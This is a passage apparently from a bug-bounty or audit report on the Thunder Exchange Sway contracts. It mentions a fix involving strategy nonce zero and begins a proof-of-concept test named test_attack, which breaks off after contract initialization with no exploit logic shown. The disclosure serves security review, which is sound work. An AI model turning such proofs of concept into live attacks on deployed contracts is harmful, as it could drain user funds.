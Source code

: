 another fix is allowing updating strategy with nonce zero to avoid reverting, but we don't recommend this.

        
## Proof of concept
## Proof of Concept

check the report ID: 34567 notes to execute the POC below:

```sway
contract;

// please take the mentioned note in reportID: 34567  in mind since some lines in the codebase should be commented

 use interfaces::{
    thunder_exchange_interface::{ThunderExchange},
    royalty_manager_interface::*,
    asset_manager_interface::*,
    execution_manager_interface::ExecutionManager,
    execution_strategy_interface::*,
    pool_interface::Pool,
};

use libraries::{
    msg_sender_address::*,
    constants::*,
    order_types::*,
    ownable::*,
};

use std::{
    block::timestamp,
    auth::*,
    call_frames::*,
    context::*,
    contract_id::ContractId,
    logging::log,
    revert::require,
    storage::storage_map::*,
    asset::*,
};
 
#[test(should_revert)] // change this to #[test()] when the codebase modified
fn test_attack() {
    initialize_functions();


}

fn initialize_functions() {

    //initialize all contracts 

    let thunder_exch = abi(ThunderExchange, thunder_exchange::CONTRACT_ID);
    thunder_exch.initialize();

    let asset_mngr = abi(AssetManager, asset_manager::CONTRACT_ID);
    asset_mngr.initialize();

    // required for initialize below contracts
    let exchange_contract_id = ContractId::from(thunder_exchange::CONTRACT_ID);

```